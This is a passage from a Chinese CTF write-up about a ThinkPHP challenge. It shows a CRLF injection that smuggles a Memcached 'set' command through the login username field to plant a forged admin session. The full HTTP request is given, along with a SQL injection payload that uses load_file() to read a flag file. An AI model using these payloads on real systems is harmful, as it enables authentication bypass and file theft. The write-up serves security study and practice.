​

大概了解一下`Memcached`​命令即可 比如 `get`​ `set`​

​

简单来说，如果存在CRLF漏洞的话就可以通过set任意的值来让缓存存在某个`value`​来达到鉴权成功，例如下方的payload，就能注入一个snowwolf的键，且值为wolf，4代表数据长度

```bash
%00%0D%0Aset%20admin%200%20500%204%0D%0Aadmin
等价于
set admin 0 500 4
admin
```

我们来测试一下

```bash
set zjacky 0 500 4
jack

get zjacky
```

​

‍

测试下来也是非常容易理解，但现在问题来了，我们要注入一个怎样的数据呢？这里还是引用到@Lxxx datou师傅写的文章了(到底是有多强)

将下面的内容添加到路由，然后访问执行

```php
public function test(){
    $result = Db::query("select * from admin where id=1");
    var_dump($result);
    $a = "think:shop.admin|admin";
    Cache::set($a, $result, 3600);
}
```

得到的`value`​是一个序列化字符串

```php
telnet 127.0.0.1 11211
get think:shop.admin|admin
a:1:{i:0;a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:32:"21232f297a57a5a743894a0e4a801fc3";}}
```

​

```bash
POST /public/index.php/index/admin/do_login.html HTTP/1.1
Host: 192.168.0.130:36000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.130:36000/public/index.php/index/index/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

username=admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20500%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D&password=admin
```

admin admin登录下后直接写sql语句通过`load_file()`​读flag出来写到`name`​字段中即可得到flag

​

```bash
id=1&name=fake_flag&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&image=https%3A%2F%2Fi.postimg.cc%2FFzvNFBG8%2FR-6-HI3-YKR-UF-JG0-G-N.jpg&data`%3Dunhex('')/<span style="font-weight: bold;" data-type="strong">/,`name`%3Dload_file('/fffflllaaaagggg')/</span>/where/<span style="font-weight: bold;" data-type="strong">/id%3D1/</span>/or/**/1%3D1#
```

‍

总结
==

题目感觉还是比较新颖把，emmm其实对比着docker来打还是较为轻松，但是可能自己在半年左右接触的CTF来看很多都没有给dockerfile或者没给镜像就导致了对从镜像去打题目的习惯和小技巧，这两个题还是非常值得复现的，其次就是通过这些题也明白了自己对ThinkPHP非常的不熟悉，曾被自己的师兄(Tsir)骂过: "你TP都不会审个毛啊还审计个毛线啊？" ，也被@up哥骂过："你\*\*的TP这一眼看过去就能看明白的东西问个\*\*"，还有很多框架还没学，害，好菜，继续学习了要。。。
